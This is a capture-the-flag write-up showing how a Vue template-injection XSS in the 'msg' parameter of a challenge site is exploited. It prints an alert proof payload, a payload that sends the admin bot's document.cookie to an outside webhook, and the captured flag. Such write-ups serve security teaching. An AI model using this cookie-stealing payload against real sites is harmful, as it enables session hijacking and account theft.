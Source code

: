 # Welcome Page
> Flag is on the admin cookie.

## About the Challenge
Given 2 websites, a plain website and the admin bot, we will probably do XSS to get the admin cookies. If you open the link, a plain website will appear and the words `Welcome!` this happens because there is 1 GET parameter named `msg` whose value we can change.

![preview](images/preview.png)

## How to Solve?
When viewing the source code, it can be identified that this website uses Vue. And after searching especially on the [portswigger website](https://portswigger.net/web-security/crosssitescripting/cheat-sheet) I found a working payload which is

```
http://103.152.242.116:8413/?msg={{_openBlock.constructor('alert(1)')()}}
```

![alert](images/alert.png)

After confirming that an alert appears, using a webhook on the XSS payload so that we can get the admin cookies

```
http://103.152.242.116:8413/?msg={{_openBlock.constructor('location.href="https://webhook/?test="+document.cookie')()}}
```

Send the XSS payload to the admin and get the cookies

![flag](images/flag.png)

```
ARA2023{sUp3r_s3cr3t_c00k13_1s_h3r3}
```